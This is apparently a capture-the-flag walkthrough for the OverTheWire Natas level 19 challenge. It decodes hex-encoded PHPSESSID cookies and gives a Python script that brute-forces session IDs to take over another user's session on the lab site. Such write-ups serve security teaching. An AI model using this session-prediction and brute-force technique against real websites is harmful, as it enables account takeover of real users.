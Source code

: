 # Natas 19 -> 20

```
http://natas19.natas.labs.overthewire.org
```

```
Username: natas19
```

Same form, no source code and this message:


```
This page uses mostly the same code as the previous level, but session IDs are no longer sequential... 
```

Well, let's see what the `PHPSESSID` has to say.


```bash
$ curl -v --user natas19:${NATAS19_PASSWD} "http://natas19.natas.labs.overthewire.org/index.php?username=a&password=a"
...
PHPSESSID=3531362d61
PHPSESSID=3336372d61
PHPSESSID=3435392d61
PHPSESSID=3534372d61
PHPSESSID=3431362d61
...
```

Do you see the pattern?  
What about our target? `natas20`?

```bash
$ curl -v --user natas19:${NATAS19_PASSWD} "http://natas19.natas.labs.overthewire.org/index.php?username=natas20&password=a"
...
PHPSESSID=3435332d6e617461733230
...
```

it changed.  
Anyway, back to the first lot of `PHPSESSID`.  

```
353136[2d61]
333637[2d61]
343539[2d61]
353437[2d61]
343136[2d61]
```

This remain the same all along, the rest of the numbers (int?) did change. Also, what remain the same all along was our request `username=[a]`. Let's try something:  

```python
>>> "2d61".decode('hex')
'-a'
```

hah !  
What about our second request, the one with `natas20`. Actually, now reading it again, there's a `2d` in there.  
I'll discard everything before `2d`...

```python
>>> "2d6e617461733230".decode('hex')
'-natas20'
```

Great. But what are those numbers?

```python
>>> map(lambda n: n.decode('hex'), ['353136', '333637', '343539', '353437', '343136'])
['516', '367', '459', '547', '416']
```

Also hex encoded integers. Same as the previous level.  
I'll asume that this time `PHPSESSID` is `"{}{}".format('123'.encode('hex'), '-username'.encode('hex'))`  
Let's try the same range, 1 to 640.

```python
#!/usr/bin/env python

import sys
import requests

url = "http://natas19.natas.labs.overthewire.org/"
http_user = "natas19"
http_pass = ""

for sessid in range(1,641):
    r = requests.get(url,
                     params={
                         'username': 'natas20',
                         'password': 'a'
                     },
                     cookies={'PHPSESSID': "{}{}".format(str(sessid).encode('hex'), '-natas20'.encode('hex'))},
                     auth=(http_user, http_pass))

    sys.stdout.write("\rTrying: {}".format(sessid))
    sys.stdout.flush()

    if "You are logged in as a regular user" not in r.text:
        sys.stdout.write(r.text)
        sys.stdout.flush()
```

It didn't worked but the `PHPSESSID` format is correct. Let's try with `-admin`.


* php
* http://php.net/manual/en/reserved.variables.session.php
* curl
* lynx
* seq

